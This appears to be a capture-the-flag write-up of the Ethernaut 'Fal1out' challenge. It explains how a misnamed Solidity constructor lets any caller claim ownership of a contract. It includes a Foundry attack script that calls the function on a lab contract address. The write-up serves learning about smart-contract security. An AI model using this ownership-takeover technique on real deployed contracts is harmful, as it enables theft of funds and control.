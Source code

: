 # Fal1out   
Our mission is claiming ownership of the contract.   
What i noticed first, is the solidity version that is being used:
`pragma solidity ^0.6.0;` a very old version, right? 
Also this fragment of code:   
```solidity
/* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
```
Why does the comment says "constructor" if that's a regular function? 🤔   
[Searching on Google](https://ethereum.stackexchange.com/a/45973) i found that on older solidity versions you had to declare the constructor using the same name of the contract instead of using the `constructor` keyword, so what was the constructor now is a regular function that we can execute so we become the owners of the contract.   
    
So, for solving this we just have to call the `Fal1out` function, i used this script for automating this process (it was easier to do using `cast` but i wanted to practice).   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Script} from "forge-std/Script.sol";

contract AttackScript is Script {
    address victim;

    constructor() {
        victim = 0x020a2877Faa90B8f04f383e17E84144dBD572014;
    }

    function run() external {
        vm.startBroadcast();
        (bool success, ) = victim.call{value: 0}(abi.encodeWithSignature("Fal1out()"));
        vm.stopBroadcast();
    }
}
```
This challenge is inspired by the [Rubixi hack](https://hydraxchain.medium.com/the-rubixi-hack-quick-explain-c7ae59afd957).   
